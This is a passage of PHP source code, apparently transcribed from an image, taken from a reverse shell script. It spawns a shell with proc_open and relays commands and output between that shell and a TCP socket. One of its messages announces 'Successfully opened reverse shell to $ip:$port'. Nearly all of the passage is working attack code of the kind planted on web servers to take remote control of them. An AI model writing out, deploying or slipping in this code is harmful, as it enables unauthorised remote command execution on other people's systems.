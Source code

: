 ``` php
printit("$errstr ($errno)");

exit(1);

}

// Spawn shell process
$descriptorspec = array(
0 => array("pipe", "r"), // stdin is a pipe that the child will read from
1 => array("pipe", "w"), // stdout is a pipe that the child will write to
2 => array("pipe", "w") // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {

printit("ERROR: Can't spawn shell");

exit(1);

}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
// Check for end of TCP connection
if (feof($sock)) {
printit("ERROR: Shell connection terminated");
break;
}

// Check for end of STDOUT
if (feof($pipes[1])) {

printit("ERROR: Shell process terminated");

break;

}

// Wait until a command is end down $sock, or some
// command output is available on STDOUT or STDERR
$read_a = array($sock, $pipes[1], $pipes[2]);
$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

// If we can read from the TCP socket, send
// data to process's STDIN
if (in_array($sock, $read_a)) {

if ($debug) printit("SOCK READ");

$input = fread($sock, $chunk_size);

if ($debug) printit("SOCK: $input");
```